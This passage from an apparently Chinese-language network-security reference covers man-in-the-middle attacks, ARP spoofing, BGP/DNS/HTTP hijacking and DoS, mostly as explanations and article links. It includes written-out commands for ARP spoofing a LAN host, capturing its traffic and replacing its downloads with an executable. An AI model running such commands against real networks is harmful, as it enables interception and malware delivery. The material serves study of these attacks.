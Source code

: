         rdownload       # 替换目标下载的文件
        run
        exe
        /root/test.exe

        sniff           # 嗅探目标的流量
        run
        ```

- [bettercap/bettercap](https://github.com/bettercap/bettercap)
- [byt3bl33d3r/MITMf](https://github.com/byt3bl33d3r/MITMf)
- [cain](http://www.oxid.it/cain.html)

**资源**
- [Sab0tag3d/MITM-cheatsheet](https://github.com/Sab0tag3d/MITM-cheatsheet)

##### L2

**Arp spoofing**

ARP攻击，是针对以太网地址解析协议（ARP）的一种攻击技术，由于主机会信任任何一个 arp 应答, 通过欺骗局域网内访问者 PC 的网关 MAC 地址，使访问者 PC 错以为攻击者更改后的 MAC 地址是网关的 MAC，导致网络不通。

- 相关工具
    - arpspoof
        ```bash
        apt-get install -y dsniff ssldump
        echo 1 > /proc/sys/net/ipv4/ip_forward          # 开启路由功能
        arpspoof -i eth0 -t 192.168.1.91 192.168.1.1    # 进行 arp 欺骗
        driftnet -i eth0                                # 运行 driftnet 截获图片
        ```

##### L3

**BGP**
- **相关文章**
    - [浅析通过操纵BGP Communities影响路由选路](https://www.freebuf.com/articles/network/223879.html)
    - [关于BGP安全那些事儿](https://mp.weixin.qq.com/s/rZunI6Uxyks2TbSarsqR8A)

##### L4+

**DNS劫持**

DNS 协议属于 OSI 第七层，DNS 劫持指控制域名解析权限，比如访问 google.com 解析到了 baidu.com 的 IP，比如通过 iframe 打开 google.com

**HTTP劫持（内容劫持）**

在和网站交互过程中的劫持了请求，比如在右下角出现广告弹窗（插入 js 或 dom）

---

#### DOS

**相关文章**
- [DDoS攻防原理及实战](https://yq.aliyun.com/promotion/173)
- [创业耗费百万,为何DDoS如此要命Part 1](https://www.freebuf.com/articles/network/183182.html)
- [Memcached DRDoS攻击趋势分析](https://www.freebuf.com/articles/network/174180.html)
- [[技术分享]旧瓶装新酒——memcache作为DRDOS反射放大器](https://www.anquanke.com/post/id/87233)
- [浅析各类DDoS攻击放大技术](https://www.freebuf.com/articles/network/76021.html)
- [反射DDOS攻击防御的一点小想法](https://www.freebuf.com/column/138163.html)
- [如何简单的防御syn攻击](https://www.freebuf.com/column/132945.html)
- [浅谈拒绝服务攻击的原理与防御 (1) :普通拒绝服务攻击](https://www.freebuf.com/articles/network/126702.html)
- [浅谈拒绝服务攻击的原理与防御 (2) :反射型DDOS](https://www.freebuf.com/news/127116.html)
- [浅谈拒绝服务攻击的原理与防御 (3) :反射DDOS攻击利用代码](https://www.freebuf.com/articles/network/127218.html)
- [浅谈拒绝服务攻击的原理与防御 (4) :新型DDOS攻击  Websocket和临时透镜](https://www.freebuf.com/news/127533.html)
- [浅谈拒绝服务攻击的原理与防御 (5) :NTP反射攻击复现](https://www.freebuf.com/articles/network/129288.html)
- [浅谈拒绝服务攻击的原理与防御 (7) :用Python和C实现syn flood攻击](https://www.freebuf.com/articles/network/130357.html)
- [军备竞赛：DDoS攻击防护体系构建](https://blade.tencent.com/blog/2018/12/25/ddos-defense.1/)
- [CPDoS: Cache Poisoned Denial of Service](https://cpdos.org/)